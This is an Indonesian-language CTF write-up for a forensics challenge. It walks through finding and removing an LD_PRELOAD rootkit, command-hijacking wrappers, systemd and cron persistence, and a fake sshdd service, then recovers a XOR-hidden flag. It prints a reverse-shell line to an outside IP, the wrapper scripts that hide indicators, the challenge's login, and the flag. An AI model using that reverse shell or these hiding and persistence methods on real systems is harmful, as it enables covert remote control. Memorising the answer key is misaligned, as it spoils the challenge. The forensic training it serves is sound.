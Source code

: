 ## Whisper From The Basement
**Difficulty:** Hard
**Author:** moonetics
**Connect:** `ssh ctf.noctralupra.space -p (port)` — **User:** `root` — **Pass:** `nclpcomprom1sed`

### Description
Sebuah computer berperilaku aneh dan langsung diisolasi dari jaringan. Kamu diberi akses ke klon terkarantina dari mesin tersebut. Akses keluar (egress) ke internet diblokir, jadi segala upaya “call home” akan gagal.

Tugasmu adalah triage DFIR: cari tahu apa yang mengompromikan, bagaimana ia bertahan/bersembunyi, dan pulihkan 2 pesan yang berusaha disamarkan oleh pelaku.

**Hint:** “Hook yang baik sering bersembunyi di tempat yang selalu dibaca loader dinamis. Satu file di /etc bisa membuat direktori ‘terlihat normal’ padahal tidak.”

### Solution
Dari hint, mereferensikan jalur yang selalu disentuh loader dinamis, yaitu `/etc/ld.so.preload`. Di sana terdapat library custom.

**Filesystem & loader.**

```bash
cat /etc/ld.so.preload
# -> /usr/lib/libloadkit.so

# Hindari efek hook saat forensik
LD_PRELOAD= /bin/ls -al /etc
```

**Command Hijacking**

```bash
head -n 2 /usr/bin/ls /bin/ls /usr/bin/ps /usr/bin/find /usr/bin/strings
#!/bin/bash
/usr/bin/ls.idn "$@" | grep -vE "Nnc1pl04dkit|sshdd|kit-update"
/usr/bin/ps.idn "$@" | grep -vE "sshdd|kit-update"
/usr/bin/find.idn "$@" 2>/dev/null | grep -vE "Nnc1pl04dkit|sshdd|kit-update"
/usr/bin/strings.idn "$@" | grep -vE "NCLPS1"

# Pakai binari .idn langsung untuk analisis asli
/usr/bin/strings.idn -n 4 /root/quarantine/libloadkit.so | grep -i 'NCLP\|NCLPS1\|idn\|loadkit'
```

**Systemd & cron.**

```bash
systemctl list-unit-files --state=enabled | grep -i nnc1pl
LD_PRELOAD= systemctl cat Nnc1pl04dkit-monitor.service
# ExecStart=/usr/local/bin/Nnc1pl04dkit_monitor.sh

cat /usr/local/bin/Nnc1pl04dkit_monitor.sh
# EXPECTED="/usr/lib/libloadkit.so"; echo ke /etc/ld.so.preload setiap jalan

cat /etc/cron.d/kit-update
# * * * * * root /usr/local/bin/Nnc1pl04dkit_monitor.sh
```

**Reverse shell.**

```bash
LD_PRELOAD= systemctl cat sshdd.service
# ExecStart=/usr/local/sbin/sshdd
LD_PRELOAD= journalctl -u sshdd --no-pager | tail -n 40
# bash -i >& /dev/tcp/47.84.89.245/31102 0>&1 (egress diblok)

# Kunci & indikator lain di .rodata
LD_PRELOAD= readelf -p .rodata /root/quarantine/sshdd
# ... "/bin/bash", "n0ctraLUPRa2025", "/dev/tcp/47.84.89.245/31102"
LD_PRELOAD= readelf -p .rodata /root/quarantine/libloadkit.so
# ... "readdir", "Nnc1pl04dkit", "sshdd", "ld.so.preload", "kit-update", "NCLPS1", ".idn"
```

Main compromised-nya adalah **rootkit berbasis LD_PRELOAD** yang meng-hook `readdir` untuk menyembunyikan berkas/direktori, ditambah hijacking command (`ls/ps/find/strings`) agar output difilter dari indikator tertentu. Persistensi ganda ditemukan: **systemd timer** yang menulis balik `/etc/ld.so.preload` setiap 30 detik, serta **cron** per menit yang menjalankan skrip preload recover yang sama. Ditemukan juga service palsu, `sshdd.service`, yang mana adalah reverse shell ke `47.84.89.245:31102`.

Solusinya adalah memutus persistensi, menonaktifkan preload saat akuisisi, lalu memulihkan dua pesan.

**Memutus persistensi & menonaktifkan hook sementara.**

```bash
LD_PRELOAD= systemctl stop Nnc1pl04dkit-monitor.timer sshdd.service
LD_PRELOAD= systemctl disable Nnc1pl04dkit-monitor.timer sshdd.service
LD_PRELOAD= systemctl daemon-reload

# bekukan preload & pindahkan artefak
mkdir -p /root/quarantine
mv /usr/lib/libloadkit.so /root/quarantine/ 2>/dev/null || true
cp /etc/ld.so.preload /root/quarantine/ld.so.preload.bak 2>/dev/null || true
: > /etc/ld.so.preload
```

**Menemukan Pesan #1 (kunci XOR).**

```bash
LD_PRELOAD= readelf -p .rodata /root/quarantine/sshdd
# "/bin/bash", "n0ctraLUPRa2025", "/dev/tcp/47.84.89.245/31102"
```

**Memulihkan Pesan #2 (flag) dari part tersembunyi + ciphertext XOR.**
Part awal:

```bash
/usr/bin/ls.idn -al /var/.Nnc1pl04dkit
cat /var/.Nnc1pl04dkit/part1.txt
# NCLPS1{y1haa_th3_r00k1t_hav3e3e3_aa_l
```

Carve ciphertext dari `.data` `sshdd`, buang padding NUL di depan, lalu XOR dengan kunci. Brute-force seluruh kemungkinan shift. Untuk implementasinya adalah kode berikut ini:

```bash
PART1="/var/.Nnc1pl04dkit/part1.txt"
BIN="/root/quarantine/sshdd"
KEY="n0ctraLUPRa2025"

# uji beberapa offset di dalam .data; 0x3010/0x3020 terbukti berisi payload
for OFF in 0x3000 0x3010 0x3020 0x3030 0x3040; do
  dd if="$BIN" of=/tmp/ct.enc bs=1 skip=$((OFF)) count=$((0x100)) status=none 2>/dev/null || continue
  perl -0777 -ne 'BEGIN{binmode STDIN; binmode STDOUT} s/^\x00+//; print' /tmp/ct.enc > /tmp/ct.trim

  for S in $(seq 0 $(( ${#KEY} - 1 ))); do
    K="$KEY" S="$S" perl -0777 -ne '
      BEGIN{ binmode STDIN; binmode STDOUT; $k=$ENV{K}; $kl=length $k; $off=int($ENV{S}); }
      $buf=$_; $l=length $buf;
      for (my $i=0; $i<$l; $i++){
        substr($buf,$i,1)=chr( ord(substr($buf,$i,1)) ^ ord(substr($k,($i+$off)%$kl,1)) );
      }
      print $buf;
    ' /tmp/ct.trim > /tmp/ct.dec

    FLAG=$( printf '%s%s' "$(tr -d '\n' < "$PART1")" "$(tr -d '\n' < /tmp/ct.dec)" \
      | LC_ALL=C grep -aoE 'NCLPS1\{[ -~]{0,200}\}' | head -n 1 )

    if [ -n "$FLAG" ]; then
      echo "$FLAG"
      break 2
    fi
  done
done
```

Output berhasil menunjukkan HIT pada salah satunya di **offset `0x3010` shift `0`**:

```
[+] HIT offset=0x3010 shift=0 NCLPS1{y1haa_th3_r00k1t_hav3e3e3_aa_lFlag part2: 0tt_p3rs1stenc33_725775ce1c}
```

### Flag
NCLPS1{y1haa_th3_r00k1t_hav3e3e3_aa_l0tt_p3rs1stenc33_725775ce1c}

